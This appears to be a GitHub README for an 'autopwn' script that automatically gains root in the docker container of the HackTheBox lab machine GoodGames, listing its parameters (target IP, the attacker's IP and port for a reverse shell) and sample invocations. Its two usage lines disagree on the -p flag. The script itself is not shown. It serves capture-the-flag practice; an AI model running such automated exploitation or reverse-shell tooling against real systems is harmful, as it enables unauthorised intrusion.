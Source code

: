 # HTB_GoodGames
In this repository you will find an autopwn tool in case you want to resolve the machine GoodGames in HackTheBox.

Autopwn.py will give you root permissions on the docker of GoodGames machine when you run it. If you want to run this exploit you will have to specify 3 parameters:

Host IP: GoodGames host IP.

Your own IP: Necessary to receive a reverse shell.

Your own Port: Port where you are listening.

Example of use:

python3 autopwn.py <Host_IP> -p <Your_Port> <Your_IP>

python3 autopwn.py 10.10.10.10 10.10.16.8 9999

